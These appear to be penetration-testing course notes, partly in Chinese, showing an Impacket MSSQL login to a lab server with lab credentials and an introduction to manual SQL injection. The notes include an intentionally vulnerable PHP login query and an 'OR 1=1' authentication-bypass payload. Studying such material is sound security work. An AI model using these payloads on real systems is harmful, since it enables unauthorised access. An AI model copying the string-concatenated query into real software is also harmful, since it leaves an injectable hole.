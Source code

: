 >[!NOTE]
> 1. [Tabular Data Stream (TDS)](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tds/893fcc7e-8a39-4b3c-815a-773b7b982c50): Microsoft SQL Server 和 Sybase Adaptive Server 開發的應用層通訊協議
> 2. impacket-mssqlclient: Impacket 工具中專門用於與 Microsoft SQL Server 進行互動的 command 工具。利用 Tabular Data Stream (TDS) 協議進行通訊

```
    ┌──(chw㉿CHW-kali)-[/]
    └─$ impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
    Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation
    
    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
    [*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
    [!] Press help for extra shell commands
    
    SQL (SQLPLAYGROUND\Administrator  dbo@master)> SELECT name FROM sys.databases;
    name
    ...
    master
    
    tempdb
    
    model
    
    msdb
    
    offsec
    
    SQL>
 ```
    > `master`, `tempdb`, `model`, and `msdb` are default databases

### Manual SQL Exploitation
How to identify and exploit SQL injection vulnerabilities
#### - Error-based Payloads
```php=
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>         
```
> Both the `uname` and `password` parameters come from user-supplied input. (可控)

uname= `offsec' OR 1=1 -- //`
```
SELECT * FROM users WHERE user_name= 'offsec' OR 1=1 --
```
1. Append a single quote to the username\
![image](https://hackmd.io/_uploads/B1NEBE4Q1l.png)
    > SQL syntax error this time, meaning we can interact with the database.
